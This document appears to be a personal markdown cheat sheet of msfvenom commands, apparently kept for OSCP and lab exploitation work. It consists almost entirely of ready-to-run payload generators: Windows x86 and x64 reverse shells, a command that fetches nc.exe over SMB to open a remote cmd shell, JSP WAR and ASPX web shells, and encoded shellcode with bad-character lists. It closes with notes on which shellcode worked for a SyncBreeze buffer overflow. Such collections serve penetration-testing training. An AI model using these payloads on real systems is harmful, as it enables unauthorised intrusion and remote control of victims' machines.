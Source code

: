 ##  Create a command on  a x86 arch that runs cmd to run an smbshare nc.exe reverse shell. Set safe exit function and set encoding
## Remove bad chars, format out is python

```
msfvenom -a x86 --platform Windows -p windows/exec cmd='cmd /c \\10.10.14.25\temp\nc.exe 10.10.14.25 3333 -e cmd' exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```


## Same as above but with a reverse shell payload

```
msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST='10.10.14.25' LPORT='3333' exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```


## reverse shell on windows x86 output to .exe

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=3333 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f exe -a x86 --platform windows > rShell.exe
```


## Generate WAR file with a jsp reverse shell:

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -f war > shell.war

```

## Reverse shell python

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.31 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

```

## Reverse shell 64 bit

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.31 LPORT=5555 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f hex -a x64 --platform windows
```


## Run a command on a 64 bit system, output as hex

```
msfvenom -a x64 --platform windows -p windows/x64/exec cmd='cmd /c whoami' exitfunc=thread -f hex
```

## Create a Reverse shell to upload to an asp.net IIS server:

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx
```

## Reverse shell on a 32 bit windows 7 machine with encoder, output as c 

```
msfvenom -p windows/shell_reverse_tcp -f exe --platform windows -a x86 -e x86/alpha_mixed -f c -b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" LHOST=192.168.118.3 LPORT=443

-e --> Encoder
-f --> format (if you use the 'c' format, you get a nice array of hex)
```

## Set Variable for shellcode:

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.162 LPORT=443  EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode > shells.txt
```


## --------------------------------------
## The shellcode I used for OSCP syncbreeze:


## Note These did not work!!!
## I think it might have been the "-e" or the "-a" flag
```
msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp LHOST='127.0.0.1' LPORT='4444' exitfunc=thread  –e x86/shikata_ga_nai -b '\x00\x0a\x0d\x25\x26\x2b\x3d' -v shellcode -f python
```

```
msfvenom -a x86 --platform Windows -p windows/exec cmd='cmd /c touch C:\pwn.txt' exitfunc=thread  –e x86/shikata_ga_nai -b '\x00\x0a\x0d\x25\x26\x2b\x3d' -v shellcode -f python
```

## This worked:
## for some reaseon it seems like "-e" or "-a" might be messing with some things...

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.4 LPORT=5555 EXITFUNC=thread -f python -v shellcode -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
## --------------------------------------
